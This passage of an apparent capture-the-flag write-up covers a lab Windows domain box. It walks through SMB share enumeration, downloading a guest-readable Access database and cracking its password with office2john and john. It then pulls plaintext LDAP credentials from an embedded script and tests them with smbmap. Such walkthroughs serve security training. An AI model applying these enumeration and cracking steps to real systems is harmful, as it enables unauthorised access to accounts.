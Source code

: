 ```
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections 
```

Thankfully, we have guest access to the `Public` folder.
Using smbclient, we connect to the drive and download everything inside of it.
```
recurse ON
prompt OFF
mget *
...
staff.accdb
```
Opening the staff.accdb file on a Windows VM shows that it is password protected.
![capture-1](capture-01.PNG)
Using office2john, we are able to create a hash which we can crack.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ office2john DB/staff.accdb > staff_hash
```
Then using john to crack the hash.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ john staff_hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
class08          (staff.accdb)     
1g 0:00:00:12 DONE (2025-08-06 16:02) 0.07788g/s 358.8p/s 358.8c/s 358.8C/s giovanna..class08
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
We crack the hash which reveals the password `class08`.
Using this password on the password protected staff.accdb, we find some powershell script.
Looking further into the script, we find a username and password.
```
    strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
    strUser = "retro2\ldapreader"
    strPassword = "ppYaVcB5R"
```
![capture-2](capture-02.PNG)

Checking these credentials against smbmap shows that the account exists and is valid.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ smbmap -H 10.129.173.72 -u 'ldapreader' -p 'ppYaVcB5R'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
```